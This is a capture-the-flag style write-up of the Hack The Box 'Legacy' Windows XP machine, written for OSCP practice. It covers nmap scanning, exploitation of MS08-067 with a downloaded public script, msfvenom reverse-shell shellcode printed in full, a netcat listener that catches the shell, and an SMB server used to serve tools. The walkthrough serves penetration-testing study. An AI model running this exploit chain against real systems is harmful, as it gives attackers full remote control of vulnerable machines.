 ```yaml
---
layout: post
title: Legacy
tags: [OSCP, writeup]
description: "Legacy write-up"
---
```


![](/assets/imgs/legacy/legacy.png)

### This is an easy windows box

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA legacy 10.10.10.4 -Pn -v

PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h23m32s, deviation: 2h07m16s, median: -5h53m32s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:2b:86 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|_  \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-16T08:04:40+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 139 (NETBIOS) 
- port 445 (SMB)
- Windows XP

Since windows XP is very old, there must be some exploit. I used nmap script to check for them.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.4 -v -Pn

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Results :

- cve2009-3103 : Denial of service, not interresting here
- ms08-067 : Remote Code Execution (RCE), nice 
- ms17-010 : Remote Code Execution (RCE), nice 

I don't want to use Metasploit, because during OSCP I won't be able to use it. So let's do it manually, let's find the exploit.

## Exploit

------

I found the exploit here : https://github.com/andyacer/ms08_067

```bash
wget https://raw.githubusercontent.com/andyacer/ms08_067/master/ms08_067_2018.py
```

On the repo, there is an explanation on how to generate the shellcode, so I used one of them, like so.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] = 
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xb2\xf4\x84\x30\x83\xee\xfc\xe2\xf4\x4e\x1c\x06\x30\xb2\xf4"
"\xe4\xb9\x57\xc5\x44\x54\x39\xa4\xb4\xbb\xe0\xf8\x0f\x62\xa6"
"\x7f\xf6\x18\xbd\x43\xce\x16\x83\x0b\x28\x0c\xd3\x88\x86\x1c"
"\x92\x35\x4b\x3d\xb3\x33\x66\xc2\xe0\xa3\x0f\x62\xa2\x7f\xce"
"\x0c\x39\xb8\x95\x48\x51\xbc\x85\xe1\xe3\x7f\xdd\x10\xb3\x27"
"\x0f\x79\xaa\x17\xbe\x79\x39\xc0\x0f\x31\x64\xc5\x7b\x9c\x73"
"\x3b\x89\x31\x75\xcc\x64\x45\x44\xf7\xf9\xc8\x89\x89\xa0\x45"
"\x56\xac\x0f\x68\x96\xf5\x57\x56\x39\xf8\xcf\xbb\xea\xe8\x85"
"\xe3\x39\xf0\x0f\x31\x62\x7d\xc0\x14\x96\xaf\xdf\x51\xeb\xae"
"\xd5\xcf\x52\xab\xdb\x6a\x39\xe6\x6f\xbd\xef\x9c\xb7\x02\xb2"
"\xf4\xec\x47\xc1\xc6\xdb\x64\xda\xb8\xf3\x16\xb5\x0b\x51\x88"
"\x22\xf5\x84\x30\x9b\x30\xd0\x60\xda\xdd\x04\x5b\xb2\x0b\x51"
"\x60\xe2\xa4\xd4\x70\xe2\xb4\xd4\x58\x58\xfb\x5b\xd0\x4d\x21"
"\x13\x5a\xb7\x9c\x8e\x3a\xbc\xf0\xec\x32\xb2\xf0\x56\xb9\x54"
"\x9e\x94\x66\xe5\x9c\x1d\x95\xc6\x95\x7b\xe5\x37\x34\xf0\x3c"
"\x4d\xba\x8c\x45\x5e\x9c\x74\x85\x10\xa2\x7b\xe5\xda\x97\xe9"
"\x54\xb2\x7d\x67\x67\xe5\xa3\xb5\xc6\xd8\xe6\xdd\x66\x50\x09"
"\xe2\xf7\xf6\xd0\xb8\x31\xb3\x79\xc0\x14\xa2\x32\x84\x74\xe6"
"\xa4\xd2\x66\xe4\xb2\xd2\x7e\xe4\xa2\xd7\x66\xda\x8d\x48\x0f"
"\x34\x0b\x51\xb9\x52\xba\xd2\x76\x4d\xc4\xec\x38\x35\xe9\xe4"
"\xcf\x67\x4f\x64\x2d\x98\xfe\xec\x96\x27\x49\x19\xcf\x67\xc8"
"\x82\x4c\xb8\x74\x7f\xd0\xc7\xf1\x3f\x77\xa1\x86\xeb\x5a\xb2"
"\xa7\x7b\xe5";
```

We now have our shellcode, we need to modify the python code. I launched my editor (Sublime Text) and then replace the shellcode by mine.

![](/assets/imgs/legacy/shellcode_replace.PNG)

*Usage: ms08_067_2018.py  <ip> <os> <port>*

Before launching the exploit, let's launch a nc listener.

```
nc -lvp 1234
```

Now launch the exploit.

```python
python ms08_067_2018.py 10.10.10.4 6 445
Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

And voila ! We have our reverse shell !

```python
listening on [any] 1234 ...
10.10.10.4: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.4] 1034
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

We don't have the "whoami" command. I search on the web how to do without it and found that there was a binary on kali pre-install :

- /usr/share/windows-resources/binaries/whoami.exe

Let's run a SMB server :

```bash
sudo smbserver.py liodeus /usr/share/windows-resources/binaries/
[sudo] password for liodeus: 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

![](/assets/imgs/legacy/whoami.png)

So we have "root" access, nice !

## Flags

------

### User.txt

![](/assets/imgs/legacy/user.PNG)

### Root.txt

![](/assets/imgs/legacy/root.PNG)